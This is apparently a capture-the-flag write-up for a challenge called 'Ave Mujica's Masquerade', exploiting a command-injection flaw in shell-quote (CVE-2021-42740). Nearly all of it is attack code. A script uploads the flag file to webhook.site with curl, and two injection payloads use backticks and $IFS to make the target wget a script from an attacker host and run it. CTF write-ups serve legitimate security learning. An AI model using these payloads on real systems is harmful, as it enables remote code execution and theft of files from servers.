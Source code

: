 # Ave Mujica’s Masquerade

Key point: command injection

CVE-2021-42740

> * [shell-quote-rce-exploiting](https://wh0.github.io/2021/10/28/shell-quote-rce-exploiting.html)

exploit.sh in remote server:

```bash
#!/bin/sh
curl -T /flag-???????????????? http://webhook.site/
```

payload:

```bash
http://<url>/checker?url=127.0.0.1:`:`wget$IFS\http://<ip>:<port>/$IFS\-O$IFS/tmp/s.sh``:#
http:/<url>/checker?url=127.0.0.1:`:`sh$IFS\/tmp/s.sh``:#
```
